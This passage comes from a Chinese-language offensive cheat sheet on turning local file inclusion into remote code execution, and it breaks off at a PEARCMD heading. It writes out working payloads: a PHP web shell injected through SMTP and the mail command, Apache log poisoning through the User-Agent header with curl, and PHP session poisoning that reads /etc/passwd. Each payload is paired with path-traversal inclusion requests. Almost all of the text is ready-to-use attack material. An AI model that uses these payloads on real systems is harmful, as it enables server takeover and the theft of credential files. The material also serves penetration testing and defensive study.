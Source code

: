 ```powershell
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```

在某些情况下，您还可以使用`mail`命令行发送电子邮件。

```powershell
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```

### 通过Apache日志实现RCE

在访问日志中投毒User-Agent：

```markdown
$ curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
```

注意：日志会转义双引号，因此在PHP有效载荷中使用单引号作为字符串。

然后通过LFI请求日志并执行您的命令。

```markdown
$ curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
```

## 通过PHP会话实现从LFI到RCE

检查网站是否使用PHP会话（PHPSESSID）

```javascript
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

在PHP中，这些会话存储在/var/lib/php5/sess_[PHPSESSID]或/var/lib/php/sessions/sess_[PHPSESSID]文件中

```javascript
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```

将会话设置为`<?php system('cat /etc/passwd');?>`

```powershell
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

使用LFI包含PHP会话文件

```powershell
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```

## 通过PHP PEARCMD实现从LFI到RCE
